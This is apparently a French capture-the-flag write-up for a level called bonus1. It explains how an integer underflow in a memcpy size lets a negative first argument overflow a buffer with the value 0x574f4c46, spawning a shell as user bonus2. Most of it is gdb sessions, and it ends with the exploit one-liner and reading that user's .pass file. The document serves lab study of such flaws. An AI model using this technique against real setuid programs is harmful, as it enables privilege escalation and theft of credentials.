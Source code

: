 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 check pour executer un shell avec les droits de bonus2.

La première condition, est que notre premier argument doit-être inférieur à 10. 

```C
arg1 = atoi(argv[1]);
if (arg1 < 10) 
```
Notre deuxième condition est que notre premier argument soit égal à `0x574f4c46`soit `1464814662`en base 10.

```C
if (argv[1] == 0x574f4c46)
	execl("/bin/sh");
```

Entre ces deux conditions, il y a un `memcpy`, que nous allons utiliser afin de faire notre exploit. 

```C
memcpy(buffer, argv[2], (len(argv[1]) * 4));
```

En effet; le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque qu'il n'y a pas de nombre négatif avec les size_t, nous allons donc pouvoir faire un `underflow`

Il va donc falloir qu'on change la valeur de notre premier argument afin qu'elle coincide avec `0x574f4c46`.

Il s'avère qu'on a la possibilité de passer des nombres négatifs comme premier argument. En prenant un nombre très petit, on peut faire un `underflow`. Voyons tout ça dans `gdb`

```
> gdb ./bonus1
(gdb) disass main 
[...]
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```
On voit un call a `memcpy`, on va donc break juste après, sur la comparaison  et lancer le programme avec différentes valeurs.
```
(gdb) break *0x08048478
[...]
(gdb) r 8 A
[...]
(gdb) x/50wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e3	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x41414141	0x45485300	0x2f3d4c4c
0xbffff6d0:	0x2f6e6962	0x68736162	0x52455400	0x74783d4d
```
On voit `0x00000020`, ce qui donne 32 en decimal. Ce qui correspond donc à notre premier argument après memcpy. La multiplication par 4 dans le `memcpy` fonctionne donc bien.
Notre début de buffer est donc à l'adresse `0xbffff6c4`.

On peut vérifier cela avec gdb
```
(gdb) break *0x08048478
[...]
(gdb) set args 2 AAAA
(gdb) x 0xbffff6c4
[...]
0xbffff6c4:	0x41414141
```
On retrouve bien nos A dans le buffer.
On peut également afficher le registre de comparaison, vu précédement `0x3c(%esp)`.

```
(gdb) x $esp+0x3c
[...]
0xbffff6ec:	0x00000002
```

Nous avons également testé avec la valeur de `int min : -2147483647`
```
(gdb) break *0x08048473
[...]
(gdb) r -2147483647 AAAAAAAAAAAAAAAAAAAA
[...]
(gdb) x/50wx $esp
[...]
0xbffff690:	0xbffff6a4	0xbffff8d4	0x00000004	0x080482fd
```

Le résultat n'était pas convaincant. Nous avons donc ajouté la taille du `buffer` à notre `intmin`.
```
-2147483647 + 40 = -2147483607
```

```
(gdb) break *0x08048473
[...]
(gdb) r -2147483607 AAAAAAAAAAAAAAAAAAAA
[...]
(gdb) x/50wx $esp
[...]
0xbffff690:	0xbffff6a4	0xbffff8d3	0x000000a4	0x080482fd
```
On obtient maintenant `0x000000a4`. En decimal, cela équivaut à 164.
On peut donc lancer notre programme avec `-2147483607` en premier argument, et remplir notre buffer avec la valeur de comparaison * 164.

La valeur de comparaison est`0x574f4c46`.
 Cette adresse en little indian est donc `\x46\x4c\x4f\x57`.
 
On peut donc faire 
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```